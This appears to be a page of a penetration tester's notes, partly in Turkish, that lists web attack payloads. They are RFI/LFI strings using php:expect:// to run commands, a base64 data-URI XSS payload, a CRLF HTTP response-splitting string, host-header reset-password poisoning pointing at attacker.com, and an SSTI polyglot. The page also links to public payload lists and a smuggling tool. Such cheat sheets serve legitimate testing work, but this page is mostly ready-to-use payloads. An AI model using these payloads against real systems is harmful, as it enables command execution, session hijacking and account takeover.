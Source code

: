 **RFI Wrapper EXPECT :**

```jsx
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

**XSS via RFI/LFI with "" payload :**

```jsx
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

[https://github.com/payloadbox/rfi-lfi-payload-list](https://github.com/payloadbox/rfi-lfi-payload-list)

## HTTP Splitting & HTTP Smuggling

CRLF—> Splitting

```jsx
%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>GORKEMSplitting</html>
```

CRLF için most likely 

- `Location`
- `Set-Cookie`

parametreleri gerekir

**HTTP Smuggling —> tool ile bulgu olursa turbo intuder için payloadlar da bu github da var.**

[https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)

## Host Header Attack

Case okumak gerek 

Reset password poisoning

```jsx
X-Forwarded-Host: www.attacker.com
X-Forwarded-For:
X-Original-URL:
X-Rewrite-URL:
X-HOST:
```

## Server-Side Template Injection (SSTI)

In most cases, this polyglot payload will trigger an error in presence of a SSTI vulnerability :

`${{<%[%'"}}%\.`

## 

![Untitled](%E2%80%94%20bc8316d476ef4486a2fa5bf8f689a9e6/Untitled%202.png)
